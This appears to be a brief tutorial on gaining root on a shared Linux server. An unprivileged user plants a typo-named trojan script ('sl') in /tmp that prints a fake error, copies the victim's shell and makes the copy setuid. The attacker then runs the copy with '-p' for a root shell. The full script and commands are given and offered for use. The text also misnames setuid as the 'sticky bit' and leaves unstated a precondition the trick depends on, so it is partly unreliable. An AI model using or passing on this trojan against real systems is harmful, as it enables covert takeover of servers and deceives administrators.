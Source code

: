 Lets suppose you have ssh access on a server as a testuser .
You can cd on tmp directory and create the following simple script .
The whole idea is to accidentaly make a root user execute our script . This will be possible if we name our executable as a possible wrong command like sl (not ls) .
Then we will copy root user's shell to onother executable where we will have access . Executing the new executable  will give us root privilleges.
(assuming the command spelling error happens from a root user , we'll need to wait a bit :P )

```
#cd on /tmp as any user without privilleges and create the following script.
#Its important to name your script , as a frequent wrong possible command like sl(not ls) , mroe(not more) etc..
vim sl

#!/bin/bash 
echo "bash: sl not found "
cp $SHELL /tmp/myfile
chmod u+s /tmp/myfile

```
1. echo "bash: sl not found " ---> informs the user that accidentally executed our script that his command was spelled wrong , in order to not be suspicious.
2. cp $SHELL /tmp/myfile ---> copies the user that executed our script bash shell to /tmp/myfile
3. chmod u+s /tmp/myfile -----> enables sticky bit , so if it is a root user we will then execute the new script , as root.

When a root user accidentally types sl instead of ls on /tmp , he runs our executable and the /tmp/myfile is finally created .It is  important to execute the new file  with the -p option to keep the privilleges of the root.

```
cd /tmp
./myfile -p

```

Enjoy your root shell.

